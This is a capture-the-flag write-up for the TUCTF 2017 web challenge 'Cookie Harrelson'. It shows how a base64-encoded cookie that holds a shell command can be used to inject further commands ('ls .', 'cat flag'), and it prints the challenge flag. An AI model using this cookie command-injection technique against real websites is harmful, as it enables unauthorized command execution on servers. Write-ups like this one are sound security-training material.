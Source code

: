# TUCTF 2017 – Cookie Harrelson

* **Category:** web
* **Points:** 200

## Challenge

> Woody Harrelson has decided to take up web dev after learning about Cookies. Show him that he should go back to killing zombies.
>
> [http://cookieharrelson.tuctf.com](http://cookieharrelson.tuctf.com)

## Solution

Analyzing the cookies you can find the following:

```
tallahassee : Y2F0IGluZGV4LnR4dA%3D%3D
```

This cookie is base64 encoded:

```
Y2F0IGluZGV4LnR4dA==
```

Decoding it:

```
cat index.txt
```

Trying a command injection via the cookie will generate Base64 cookies in the following format:

```
cat index.txt #ls
```

So, trying to inject the Base64 version of this snippet:

```
!/bin/bash
ls .
```

Will enumerate the folder content, showing the presence of a "flag" file.
Trying to print the "flag" file with the following script (encoded via Base64 and passed into the cookie):

```
!/bin/bash
cat flag
```

Will show the flag:

```
TUCTF{D0nt_3x3cut3_Fr0m_C00k13s}
```